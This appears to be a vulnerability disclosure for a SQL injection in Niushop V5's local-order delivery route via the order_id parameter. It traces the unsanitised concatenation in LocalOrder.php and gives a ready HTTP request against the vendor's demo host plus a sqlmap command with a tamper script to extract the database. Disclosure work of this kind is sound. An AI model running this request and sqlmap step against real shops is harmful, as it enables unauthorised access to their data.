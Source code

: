 Niushop V5 has a SQL injection vulnerability.

Official website: https://gitee.com/niushop-team/niushop_b2c_v5#https://gitee.com/link?target=https%3A%2F%2Fwww.kancloud.cn%2Fniucloud%2Fniushop_b2c_v5%2F3037616](https://gitee.com/niushop-team/niushop_b2c_v5#https:/gitee.com/link?target=https%3A%2F%2Fwww.kancloud.cn%2Fniucloud%2Fniushop_b2c_v5%2F3037616

Version: V5

Route: /shop/localorder/delivery.html

Injection parameters: order_id

#### 1.Vulnerability analysis

niushop_b2c_v5-master/niushop/app/model/order/LocalOrder.php
In the orderGoodsDelivery function, the native SQL statement concatenates $order_id.
![image-20250218151026180](assets/image-20250218151026180)
Click in to track the function, niushop_b2c_v5-master/niushop/app/shop/controller/Localorder.php calls this method.
![image-20250218151032514](assets/image-20250218151032514)
![image-20250218151058528](assets/image-20250218151058528)
Construct a data packet to trigger the function (save as post.txt).

```
GET /shop/localorder/delivery.html?order_id=1*&deliverer=2&deliverer_mobile=1 HTTP/2
Host: uniapp.v5.niuteam.cn
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:124.0) Gecko/20100101 Firefox/124.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 0
Origin: https://uniapp.v5.niuteam.cn
Referer: https://uniapp.v5.niuteam.cn/shop.html
Cookie: think_lang=zh-cn; PHPSESSID=b85fe59b153b7c2539fc0188bed22f38
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin

```

#### 2.Vulnerability verification and exploitation

Replace the cookie in post.txt after login

sqlmap --batch --tamper=space2comment -r post.txt --current-db

![image-20250218150440806](assets/image-20250218150440806.png)

